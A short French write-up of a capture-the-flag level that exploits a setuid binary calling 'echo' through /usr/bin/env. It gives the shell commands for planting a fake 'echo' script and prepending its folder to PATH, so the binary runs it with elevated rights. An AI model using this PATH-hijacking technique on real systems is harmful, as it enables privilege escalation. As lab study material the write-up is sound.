 On peut remarquer dans le dossier de l'utilisateur un fichier `level03` executable qui print "Exploit me" quand on l'execute.
Si on regarde les permissions du fichier,
`-rwsr-sr-x 1 flag03  level03 8.5K Mar  5  2016 level03`
on voit que les autorisations d'execution sont "s" et non "x".

Cela signigie que le fichier est execute avec les permissions de flag03.
Si on analyse simplement l'executable avec strings (`strings level03`), on voit que le print se fait via `/usr/bin/env echo Exploit me`.

Donc ce fichier lance une commande. Il nous suffit donc de modifier là ou pointe "echo", en créant un fichier executable du même nom et contenant un appel à `getflag`, puis d'ajouter le dossier qui le contient au PATH.

```bash
chmod +w .
touch echo
chmod +x echo
export PATH="`pwd`:$PATH"
vim echo
```

Dans vim, on ajoute

```bash
#!/bin/bash

getflag
```

Ensuite, il ne reste plus qu`à executer `./level03`